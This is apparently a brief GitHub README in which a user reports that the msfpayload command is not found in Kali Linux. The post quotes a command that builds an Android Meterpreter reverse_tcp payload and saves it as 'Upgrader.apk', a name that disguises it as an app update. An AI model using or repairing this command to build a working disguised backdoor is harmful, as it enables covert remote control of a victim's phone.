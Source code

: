 # Facing-issue-in-msfpayload-
FACING THE ISSUE WHILE MSFPAYLOAD IS GETTING ERROR IN KALI LINUX IN TERMINAL 
As while I am running this to just simply some of the stuffs then its showing that the commands are not found ,as I have tried so much searching how the error can be finilished but it showing the smae error.

msfpayload android/meterpreter/reverse_tcp LHOST=192.168.0.4 R > /root/Upgrader.apk 
Executing this command line in kali linux terminal showing the error as command snot found.
